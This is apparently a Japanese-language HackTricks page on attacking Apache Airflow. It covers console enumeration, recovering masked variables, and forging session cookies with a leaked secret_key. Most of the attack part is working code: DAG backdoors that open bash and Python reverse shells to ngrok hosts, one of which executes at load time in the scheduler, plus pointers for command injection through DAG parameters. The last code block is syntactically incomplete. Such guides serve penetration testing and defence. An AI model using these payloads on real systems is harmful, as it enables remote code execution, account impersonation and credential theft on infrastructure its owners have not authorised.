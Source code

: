 # Apache Airflow Security

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### 基本情報

[**Apache Airflow**](https://airflow.apache.org) は、**データパイプラインやワークフローのオーケストレーションとスケジューリングのためのプラットフォーム**として機能します。「オーケストレーション」という用語は、データパイプラインの文脈において、さまざまなソースからの複雑なデータワークフローを整理、調整、管理するプロセスを指します。これらのオーケストレーションされたデータパイプラインの主な目的は、処理された消費可能なデータセットを提供することです。これらのデータセットは、ビジネスインテリジェンスツール、データサイエンス、機械学習モデルなど、さまざまなアプリケーションで広く利用されており、ビッグデータアプリケーションの機能にとって基盤となっています。

基本的に、Apache Airflowは、**何かが起こったときにコードの実行をスケジュールすることを可能にします**（イベント、cron）。

### ローカルラボ

#### Docker-Compose

[**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) からの**docker-compose設定ファイルを使用して**、完全なapache airflow docker環境を立ち上げることができます。（MacOSを使用している場合は、docker VMに少なくとも6GBのRAMを割り当てることを確認してください）。

#### Minikube

**apache airflow**を実行する簡単な方法の一つは、**minikubeで実行することです**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflowの設定

Airflowはその設定に**機密情報**を保存する可能性があり、または弱い設定が存在することがあります：

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

Airflowを攻撃する前に、**権限の仕組み**を理解する必要があります：

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### 攻撃

#### ウェブコンソールの列挙

**ウェブコンソールにアクセス**できる場合、以下の情報の一部またはすべてにアクセスできる可能性があります：

* **変数**（カスタムの機密情報がここに保存される可能性があります）
* **接続**（カスタムの機密情報がここに保存される可能性があります）
* `http://<airflow>/connection/list/`でアクセス
* [**設定**](./#airflow-configuration)（**`secret_key`**やパスワードなどの機密情報がここに保存される可能性があります）
* **ユーザーと役割のリスト**
* **各DAGのコード**（興味深い情報が含まれている可能性があります）

#### 変数の値を取得

変数はAirflowに保存され、**DAG**がその値に**アクセス**できるようになります。他のプラットフォームの秘密に似ています。**十分な権限**があれば、`http://<airflow>/variable/list/`のGUIでアクセスできます。\
AirflowはデフォルトでGUIに変数の値を表示しますが、[**これ**](https://marclamberti.com/blog/variables-with-apache-airflow/)によると、**値**が**アスタリスク**として表示される**変数のリスト**を設定することが可能です。

![](<../../.gitbook/assets/image (164).png>)

しかし、これらの**値**は**CLI**（DBアクセスが必要）、**任意のDAG**の実行、**API**を介して変数エンドポイントにアクセスすること（APIは有効化する必要があります）、さらには**GUI自体**からも**取得**できます！\
GUIからこれらの値にアクセスするには、アクセスしたい**変数を選択**し、**アクション -> エクスポート**をクリックします。\
別の方法は、**検索フィルタリング**を使用して**隠された値**に対して**ブルートフォース**を行い、それを取得することです：

![](<../../.gitbook/assets/image (152).png>)

#### 権限昇格

**`expose_config`**設定が**True**に設定されている場合、**ユーザー役割**以上の権限を持つ者は**ウェブで設定を読む**ことができます。この設定には**`secret_key`**が含まれており、これにより有効なユーザーは**他のユーザーアカウントを偽装するための独自の署名付きクッキーを作成**できることを意味します。
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG バックドア (Airflow ワーカーにおける RCE)

もし **DAG が保存されている場所に書き込みアクセス** がある場合、**逆シェルを送信する DAG を作成する** ことができます。\
この逆シェルは **airflow ワーカーコンテナ内** で実行されることに注意してください：
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG バックドア (Airflow スケジューラにおける RCE)

コードの**ルートで実行されるように設定**した場合、この記事執筆時点では、それはDAGのフォルダに配置してから数秒後に**スケジューラによって実行されます**。
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### DAGの作成

もし**DAGクラスター内のマシンを侵害することができれば**、`dags/`フォルダーに新しい**DAGスクリプト**を作成することができ、それらは**DAGクラスター内の他のマシンに複製されます**。

#### DAGコードインジェクション

GUIからDAGを実行すると、**引数**を渡すことができます。\
したがって、DAGが適切にコーディングされていない場合、**コマンドインジェクションに対して脆弱である可能性があります。**\
これがこのCVEで起こったことです: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

**DAG内のコマンドインジェクションを探し始めるために知っておくべきこと**は、**パラメータ**が**`dag_run.conf.get("param_name")`**というコードで**アクセスされる**ということです。

さらに、同じ脆弱性が**変数**にも発生する可能性があります（十分な権限があれば、GUIで**変数の値を制御することができる**ことに注意してください）。変数は**次のようにアクセスされます**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
もしそれらが例えばbashコマンドの中で使用されると、コマンドインジェクションを実行することができます。

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
